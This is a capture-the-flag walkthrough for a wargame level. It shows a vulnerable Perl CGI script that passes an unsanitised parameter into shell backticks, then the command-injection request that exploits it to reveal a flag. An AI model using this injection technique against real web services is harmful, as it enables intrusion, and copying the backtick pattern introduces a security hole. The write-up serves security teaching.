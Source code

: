 

# **Level12**

### **Walk through**

Doing `ls` we discover a perl script `level12`

`cat level12.pl`

```perl
#!/usr/bin/env perl
# This is a Perl CGI script that takes parameters from a CGI request.
# localhost:4646

use CGI qw{param};
print "Content-type: text/html\n\n";

# Function t takes two arguments, transforms the first one, and searches for a match in the file /tmp/xd.
sub t {
  $nn = $_[1];
  $xx = $_[0];

  # Transform xx to uppercase and remove spaces.
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;

  # Read lines from /tmp/xd that start with the transformed xx and contain nn.
  @output = `egrep "^$xx" /tmp/xd 2>&1`;

  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);

      # If the second part of the line matches nn, return 1.
      if($s =~ $nn) {
          return 1;
      }
  }

  # If no match is found, return 0.
  return 0;
}

# Function n prints dots or dots followed by two dots based on the input value.
sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

# Call n with the result of t(param("x"), param("y")).
n(t(param("x"), param("y")));

```

The idea is to give as input parameter 'x' a script that will be evaluated. Indeed the line ```@output = `egrep "^$xx" /tmp/xd 2>&1`;``` contains a vulnerability, if the x is not properly parsed/sanitize we can input a script that will be executed because of the back ticks. Moreover, as anything between the back ticks will be evaluated, giving as input something like /*/script.sh could match several files and thus run an exploit. Our a script will simply be:

`echo 'getflag > /tmp/flag12' > /tmp/GETFLAG`
`chmod +x /tmp/GETFLAG`

Let's curl the result:

```curl 127.0.0.1:4646?'x=`/*/GETFLAG`'``` which gives us the flag **g1qKMiRpXf53AWhDaU7FEkczr**.

If anything doesn't work as imagined we can always check the error.log of the server doing `cat /var/log/apache2/error.log`.

We will use it to log as level13

`su level13`
